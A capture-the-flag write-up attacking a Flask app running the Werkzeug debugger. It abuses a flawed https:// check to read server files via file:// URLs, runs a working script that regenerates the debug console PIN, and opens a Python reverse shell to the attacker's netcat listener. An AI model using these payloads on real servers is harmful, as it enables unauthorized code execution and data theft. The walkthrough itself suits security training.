

# CTF - Werkzeug PIN crack
## Write-up
When first opening the web application, we are presented with an interface that seemingly allows us to fetch the HTML source for any URL.

Lets try some examples:  
https://example.com:  

https://example.com:  


It looks like we can only fetch URLs using HTTPS, let's see whether this is actually checked properly, let's try `http://example.com#https://`:

So that works too! This means that the check for https:// is not properly implemented, let's remember this for later.

Knowing what the application does, let's see if we can find some more information by navigating around the page.
At the bottom of the page, we find a link to the copyright notice, let's click it.  

Oops, we triggered an error, it seems like the developers forgot to include a template for the `/copyright` page.
This mistake from the developers just gave a lot of information about the server. From just this error page, we know that the application is written in Flask, using python 3.6, and it is running on the Werkzeug development server with debug mode turned on (otherwise we would have gotten a generic 500 error).

Something else that is included in the debug error page, is a python interpreter, that can be used from the error page, or directly from `/console`, it is however protected by a PIN.

Since Werkzeug is open-source however, we can find how this PIN is generated, and generate it ourselves.
The code used to generate the PIN is located at https://github.com/pallets/werkzeug/blob/1.0.x/src/werkzeug/debug/__init__.py.
The exact function that we're interested in is:
```python
#https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

def get_pin_and_cookie_name(app):
    """Given an application object this returns a semi-stable 9 digit pin
    code and a random key.  The hope is that this is stable between
    restarts to not make debugging particularly frustrating.  If the pin
    was forcefully disabled this returns `None`.
    Second item in the resulting tuple is the cookie name for remembering.
    """
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    # Pin was explicitly disabled
    if pin == "off":
        return None, None

    # Pin was provided explicitly
    if pin is not None and pin.replace("-", "").isdigit():
        # If there are separators in the pin, return it directly
        if "-" in pin:
            rv = pin
        else:
            num = pin

    modname = getattr(app, "__module__", app.__class__.__module__)

    try:
        # getuser imports the pwd module, which does not exist in Google
        # App Engine. It may also raise a KeyError if the UID does not
        # have a username, such as in Docker.
        username = getpass.getuser()
    except (ImportError, KeyError):
        username = None

    mod = sys.modules.get(modname)

    # This information only exists to make the cookie unique on the
    # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", app.__class__.__name__),
        getattr(mod, "__file__", None),
    ]

    # This information is here to make it harder for an attacker to
    # guess the cookie name.  They are unlikely to be contained anywhere
    # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]

    h = hashlib.md5()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, text_type):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    cookie_name = "__wzd" + h.hexdigest()[:20]

    # If we need to generate a pin we salt it a bit more so that we don't
    # end up with the same value and generate out 9 digits
    if num is None:
        h.update(b"pinsalt")
        num = ("%09d" % int(h.hexdigest(), 16))[:9]

    # Format the pincode in groups of digits for easier remembering if
    # we don't have a result yet.
    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    return rv, cookie_name
```
We can then clean this up to the following to generate the PIN.
```python
#https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

So to generate the PIN ourselves, we need the following variables:
```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```
- `username`: the name of the user running the app
- `modname`: is always `flask.app`
- `getattr(app, '__name__', getattr(app.__class__, '__name__'))`: is always `Flask`
- `getattr(mod, '__file__', None)`: the absolute path of `app.py` in the flask directory.

- `str(uuid.getnode())`: the MAC address of the current computer in decimal representation
- `get_machine_id()`: the value in `/etc/machine-id` or if empty in `/proc/sys/kernel/random/boot_id`, in some cases it is necessary to append the string on the first line, after the third slash in `/proc/self/cgroup`

To get the username, and the absolute path of `app.py`, we can check the information that is exposed by the error page.
On this page, we can see that the error is first triggered in `/home/htmlfetcher/.local/lib/python3.6/site-packages/flask/app.py`, this by itself is the absolute path of `app.py`, but we can also see that it is located in `/home/htmlfetcher`, with this we can assume that the user running this app is called `htmlfetcher`.

However, to get the username, MAC address and the machine id, we need to gain some access to the server.
So let's go back to the application itself and see what else we can do.

We know that we can request URLs, and since the https:// checking is broken, we can request any URL as long as we include https:// in the URL. Does this mean that it would be possible to use other protocols than http? Like ftp? or maybe read files directly through the file:// protocol? Let's give it a try!  

'No such file or directory', so the file:// protocol is allowed! Let's confirm this and open `/etc/passwd`:

Bingo, we have arbitrary file reads on this system! Now we can start gathering the required information to generate our PIN!

- MAC address:
  1. get the name of the network device with `file:///proc/net/arp#https://`-- `eth0`
  2. get the MAC address with `file:///sys/class/net/eth0/address#https://` -- `02:42:ac:13:00:02`
  3. convert MAC address to decimal representation -- `2485378023426`
- machine id:
  1. check `/etc/machine-id` with `file:///etc/machine-id#https://` -- `96cec10d3d9307792745ec3b85c89620`
  2. get bits from cgroup with `file:///proc/self/cgroup#https://` -- `7c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf`
  3. append results -- `96cec10d3d9307792745ec3b85c896207c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf`

Now we put these results in our script to generate the PIN:
```python
probably_public_bits = [
    'htmlfetcher',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/htmlfetcher/.local/lib/python3.6/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485378023426',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '96cec10d3d9307792745ec3b85c896207c248d90037505adc07822804fc5b2289664e4be47666dfd829d8713da6ba1bf'  # get_machine_id(), /etc/machine-id
]
```
Using this information, we get the following PIN: `297-968-211`, let's see if it works!

  
Looks like it worked! We can now execute python code on the server!

Now we can open a reverse shell to properly start looking around in the server.
First we start netcat on our own system with e.g. `nc -lvnp 4444`, then start a reverse shell on the server with the following snippet taken from revshells.com: `import os,pty,socket;s=socket.socket();s.connect(("<ip>",<port>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")`.
If done correctly, we can see a connection coming in to our netcat instance:  

When looking around, we can find a file called `note.txt` in our `/home/`directory. This file contains our flag: `SCYON{513152474c58646c636d74365a58566e58334270626c396a636d466a61773d3d}` 

## Sources:
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

## Additional links:
- https://www.revshells.com/

## Shortcuts:
- since we already have arbitrary file reads, by guessing the correct filename, we can already fetch the flag using `file://home/note.txt#https://`
